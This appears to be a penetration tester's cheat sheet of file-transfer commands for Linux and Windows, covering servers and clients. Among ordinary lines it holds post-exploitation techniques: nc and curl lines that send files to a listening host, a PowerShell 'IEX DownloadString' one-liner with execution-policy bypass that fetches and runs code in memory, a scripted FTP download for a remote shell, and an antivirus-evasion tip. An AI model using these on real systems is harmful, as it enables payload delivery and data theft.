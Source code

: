 # General - File Transfer

### Server side

The following tools can be used to host files server side.

###### Python - Web Server

```python
python -m SimpleHTTPServer <PORT>
```

###### curl

```bash
# Needs the receiver to be listening
curl -F 'data=@<FILE>' http://<IP>:<PORT>
```

###### nc

```bash
# Needs the receiver to be listening
nc -w 3 <IP> <PORT> < <FILE>
Get-Content <FILE> | ./nc.exe -w 3 <IP> <PORT>
```

###### impacket-smbserver - SMB share

```bash
impacket-smbserver <SHARE_NAME> <SHARE_PATH>
impacket-smbserver <SHARE_NAME> `pwd`
```

###### Windows GUI shares

On Windows, the graphical interface can be used to share a specific folder over
the network. Sharing a folder requires Administrator or SYSTEM privileges.

Note that the final access permissions for a shared resource are determined by
considering both the NTFS permissions and the sharing protocol permissions, and
then applying the more restrictive permissions. Thus, it is possible to grant
"Everyone" full access permission when configuring the share permissions.

```
# Share permissions
Right click folder -> Properties -> Sharing -> Share -> Everyone

# NTFS permissions - Needs to be applied to the folder and its files
Right click folder -> Properties -> Security -> Edit -> Add
  -> From this location -> <DOMAIN>
  -> Enter the object names to select -> <USERNAME> (-> Check Names)
```

###### FTP

```
# pip install pyftpdlib
python -m pyftpdlib -w -p <PORT>
```

###### TFTP

```
# Metasploit server module
use auxiliary/server/tftp

# Unix daemon
mkdir <TFTPFOLDER>
atftpd --daemon --port <PORT> <TFTPFOLDER>
```

### Client side

The following tools can be used to download file from a server client side.  

File transfer is easier on Linux machines as wget, curl or netcat are often packaged
with the operating system distribution.  

On Windows machines, the process is usually not as straight forward.

###### wget

```bash
wget http:/<IP>:<PORT>/<FILE>
wget -O file http://<IP>:<PORT>t/<FILE>
wget -r --no-parent -nH --reject "index.html*" http://<IP>:<PORT>/<DIR>
```

###### curl

```bash
curl http://<IP>:<PORT>/<FILE> > out.file
curl -O http://<IP>:<PORT>/<FILE>
```

###### netcat

```bash
nc -l -p <PORT> > out.file
nc -l -p <PORT> | tee out.file
```

###### Python

```python
python -c "from urllib import urlretrieve; urlretrieve('http://<IP>:<PORT>/<FILE>', '<OUT.FILE>')"
python3 -c "from urllib.request import urlretrieve; urlretrieve('http://<IP>:<PORT>/<FILE>', 'out.file')"
```

###### Powershell

```powershell
Invoke-WebRequest -Uri <URL> -OutFile <FILE>
(New-Object Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>', '<FULLPATH\FILENAME>');

# Load in memory and execute
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>'); Invoke-ImportedCMD"
echo IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>') | powershell -nop -exec bypass -

# Connect to a SMB share
New-PSDrive -Name "LocalMountedFolder" -PSProvider "FileSystem" -Root "\\<IP>\<SHARE>"; cd LocalMountedFolder:
```

###### FTP

To download file interactively:

```
ftp -A <SERVERIP>
```

Paste the following commands into a remote Windows shell and download files over FTP non-interactively (replace <USERNAME> by anonymous if using anonymous login):

```
echo open <IP> <PORT> > ftp.txt
echo USER <USERNAME> >> ftp.txt
echo <PASSWORD> >> ftp.txt
echo bin >> ftp.txt
echo GET <FILENAME> >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
```

In case of AV errors while trying to download a binary, omit the exe extension.  

###### TFTP

TFTP is a simple protocol for transferring files, implemented on top of the UDP/IP
protocols. TFTP was designed to be small and easy to implement, and therefore it
lacks most of the advanced features offered by more robust file transfer protocols.
TFTP only reads and writes files from or to a remote server. It cannot list, delete,
or rename files or directories and it has no provisions for user authentication.  

Windows operating systems up to Windows XP and 2003 contain a TFTP
client, by default. In Windows 7, 2008, and above, this tool needs to be explicitly added,
during installation.

```
tftp -i <SERVERIP> GET <FILENAME>
```

